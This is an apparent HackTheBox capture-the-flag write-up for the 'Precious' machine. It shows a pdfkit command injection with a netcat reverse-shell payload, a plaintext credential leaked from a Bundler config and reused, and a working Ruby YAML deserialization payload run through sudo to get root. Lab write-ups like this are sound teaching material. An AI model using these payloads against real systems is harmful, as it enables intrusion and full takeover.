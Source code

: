```yaml
---
tags:
  -  htb
revisit: true
---
```

# HackTheBox: [Precious](https://app.hackthebox.com/machines/Precious)

> [!tip]- Spoiler Summary
> This target is running a simple web app with a vulnerable version of `pdfkit`, which allows for a foothold. Lateral movement is possible via leaked credentials and password reuse. Privilege escalation is possible by exploiting Ruby's YAML library.

## Services

### TCP

First, a TCP [port scan with nmap](nmap-20240610.md):

```console
# Nmap 7.94SVN scan initiated Tue Aug  6 15:03:38 2024 as: nmap -v -sCV -p- -T4 --min-rate 10000 -oN tcp_full t
Nmap scan report for t (10.10.11.189)
Host is up (0.092s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### 80/tcp-http

```console
$ whatweb http://t
http://t [302 Found] Country[RESERVED][ZZ], HTTPServer[nginx/1.18.0], IP[10.10.11.189], RedirectLocation[http://precious.htb/], Title[302 Found], nginx[1.18.0]
ERROR Opening: http://precious.htb/ - no address for precious.htb

$ whatweb http://precious.htb
http://precious.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0 + Phusion Passenger(R) 6.0.15], IP[10.10.11.189], Ruby-on-Rails, Title[Convert Web Page to PDF], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-Powered-By[Phusion Passenger(R) 6.0.15], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```

## RCE

Here is how I achieved remote code execution on the target system.

![](_/htb-precious-20240806-3.png)

I spent some time hunting for an RCE vulnerability in "Phusion Passenger 6.0.15", but couldn't find anything.

But, I got code execution via a POST parameter:

```console
POST / HTTP/1.1
Host: precious.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://precious.htb
Connection: keep-alive
Referer: http://precious.htb/
Upgrade-Insecure-Requests: 1
url=http%3A%2F%2F10.10.14.8%2Ffoo$(id)
```

This resulted in the following request to my web server:

```console
10.10.11.189 - - [06/Aug/2024 15:27:20] "GET /foouid=1001(ruby)%20gid=1001(ruby)%20groups=1001(ruby) HTTP/1.1" 404 -
```

My command options were limited via that vector. I was useful for recon (`cat /etc/passwd`, `cat /proc/self/environ`, and the like) but I couldn't use `>` redirection and many commands failed in ways I couldn't work around.

Eventually I realized that the web service was using a [vulnerable pdfkit](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795), so passing an argument like the following was enough to get a reverse shell.

```text
http://example.htb/?name=#{'%20`busybox nc 10.10.14.8 443 -e sh`'}
```

```console
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.189] 40806
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
```

## Lateral Movement

Here's how I was able to escalate privileges for full control of the system.

```ruby
ruby@precious:/opt$ cat update_dependencies.rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'
# TODO: update versions automatically
def update_gems()
end
def list_from_file
    YAML.load(File.read("dependencies.yml"))
end
def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end
gems_file = list_from_file
gems_local = list_local_gems
gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end

ruby@precious:/opt$ cat sample/dependencies.yml
yaml: 0.1.1
pdfkit: 0.8.6
```

```console
ruby@precious:/opt$ ls -l update_dependencies.rb sample/dependencies.yml
-rw-r--r-- 1 root root  26 Sep 22  2022 sample/dependencies.yml
-rwxr-xr-x 1 root root 848 Sep 25  2022 update_dependencies.rb
```

`ruby@precious:/var/www/pdfapp/app/controllers/pdf.rb`:

```ruby
class PdfControllers < Sinatra::Base
  configure do
    set :views, "app/views"
    set :public_dir, "public"
  end
  get '/' do
    erb :'index'
  end
  post '/' do
    url = ERB.new(params[:url]).result(binding)
    if url =~ /^https?:\/\//i
      filename = Array.new(32){rand(36).to_s(36)}.join + '.pdf'
      path = 'pdf/' + filename
      begin
           PDFKit.new(url).to_file(path)
          cmd = `exiftool -overwrite_original -all= -creator="Generated by pdfkit v0.8.6" -xmptoolkit= #{path}`
          send_file path, :disposition => 'attachment'
      rescue
           @msg = 'Cannot load remote URL!'
      end
    else
        @msg = 'You should provide a valid URL!'
    end
    erb :'index'
  end
end
```

Found creds for user `henry`:

```console
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
ruby@precious:~$ su - henry
Password:
henry@precious:~$ id
uid=1000(henry) gid=1000(henry) groups=1000(henry)
```

That config file comes from [Bundler](https://bundler.io/v1.12/man/bundle-config.1.html). In this case, the credentials have been reused for the local login on the target.

## Privilege Escalation

User `henry` has Sudo privileges on the previously discovered Ruby script:

```console
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

I know the script reads a file called `dependencies.rb` from the current working directory, so I should be able to modify that file to get a root shell somehow.

I found a nice post called [Universal RCE with Ruby YAML.load](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/). I adapted the payload [from here](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565).

Here's the working payload:

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: sh
         method_id: :resolve
```

```console
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Credits

- [Universal RCE with Ruby YAML.load](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/)
